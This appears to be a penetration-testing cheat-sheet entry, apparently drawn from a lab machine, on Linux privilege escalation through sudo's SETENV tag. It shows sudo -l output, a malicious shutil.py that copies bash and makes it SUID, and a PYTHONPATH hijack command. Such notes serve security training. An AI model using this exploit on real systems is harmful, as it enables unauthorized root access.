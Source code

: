 # SETENV
If the setenv option is set in sudoers, the command to be run has the SETENV tag set or the command matched is ALL, the user may set variables that would otherwise be forbidden.

#### Link
- https://book.hacktricks.xyz/linux-unix/privilege-escalation#setenv

#### Detection
```bash
waldo@admirer:~$ sudo -l 
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```


#### Exploitation code (Abusing "PYTHONPATH" variable)
- The file was called "shutil.py"
```python
#!/usr/bin/python3
import os

def make_archive(a,b,c):
  os.system("cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash")
```


#### Exploitation (Example when hijacking the "PYTHONPATH" variable)
```bash
# Doing this will make the python interpreter look for library in the /home/waldo/ directory first. 
# We can abuse this by creating a malicious python code disguised as python library called by the below program.
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```